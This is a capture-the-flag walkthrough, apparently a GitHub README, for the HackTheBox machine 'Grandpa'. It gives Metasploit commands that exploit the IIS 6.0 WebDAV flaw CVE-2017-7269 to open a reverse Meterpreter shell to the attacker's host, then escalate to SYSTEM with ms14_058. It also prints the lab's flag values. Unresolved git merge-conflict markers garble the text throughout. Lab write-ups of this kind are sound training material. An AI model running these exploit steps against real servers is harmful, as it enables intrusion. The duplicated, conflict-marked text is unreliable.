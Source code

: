 # HackTheBox Walkthrough - Grandpa

**Machine Name**: Grandpa  
**Target IP**: 10.129.95.233  
**Difficulty**: Easy  
**Objective**: Exploit IIS 6.0 and escalate privileges to get both user and root flags.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
```

![nmap](img/nmap.png)
=======
9f1f476 (Add files via upload)
=======
![nmap](img/nmap.png)
>>>>>>> bbca5bf (Update README.md)
=======
![nmap](img/nmap.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Sun, 27 Jul 2025 12:26:38 GMT
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
```

---

## 💥 Exploitation

### 🔓 Exploit IIS 6.0 WebDav (CVE-2017-7269)


Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)
>>>>>>> 9f1f476 (Add files via upload)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
>>>>>>> bbca5bf (Update README.md)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.233
set LHOST 10.10.14.156
run
```

=======
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)

=======

> Meterpreter session opened.

---
>>>>>>> 9f1f476 (Add files via upload)
=======
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)
>>>>>>> bbca5bf (Update README.md)
=======
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

### 📍 Migrate Session (Stabilize)

```bash
ps
migrate 1896  # wmiprvse.exe
getuid
```

![migrate](img/migrate.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![migrate](img/migrate.png)
>>>>>>> bbca5bf (Update README.md)
=======
![migrate](img/migrate.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Result**:
```
Server username: NT AUTHORITY\NETWORK SERVICE
```

---

## 🔧 Privilege Escalation

### 🔍 Use `local_exploit_suggester`

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![recon](img/recon.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![recon](img/recon.png)
>>>>>>> bbca5bf (Update README.md)
=======
![recon](img/recon.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Vulnerable Suggestions:**
- ms14_058_track_popup_menu
- ms14_070_tcpip_ioctl
- ms15_051_client_copy_image
- ms16_016_webdav
- ppr_flatten_rec
- etc...

### 🚀 Use `ms14_058_track_popup_menu`

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 1
set LHOST 10.10.14.156
run
```

![root](img/root.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![root](img/root.png)
>>>>>>> bbca5bf (Update README.md)
=======
![root](img/root.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

```bash
getuid
```

**Result**:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 User Flag

```bash
cat C:\Users\[USERNAME]\Desktop\user.txt
```

![userflag](img/userflag.png)
=======

**Flag**:
```
bdff5ec67c3cff017f2bedc146a5d869
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![userflag](img/userflag.png)
>>>>>>> bbca5bf (Update README.md)
=======
![userflag](img/userflag.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

---

## 👑 Root Flag

```bash
cat C:\Users\Administrator\Desktop\root.txt
```

![rootflag](img/rootflag.png)
=======

**Flag**:
```
9359e905a2c35f861f6a57cecf28bb7b
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![rootflag](img/rootflag.png)
>>>>>>> bbca5bf (Update README.md)
=======
![rootflag](img/rootflag.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

---
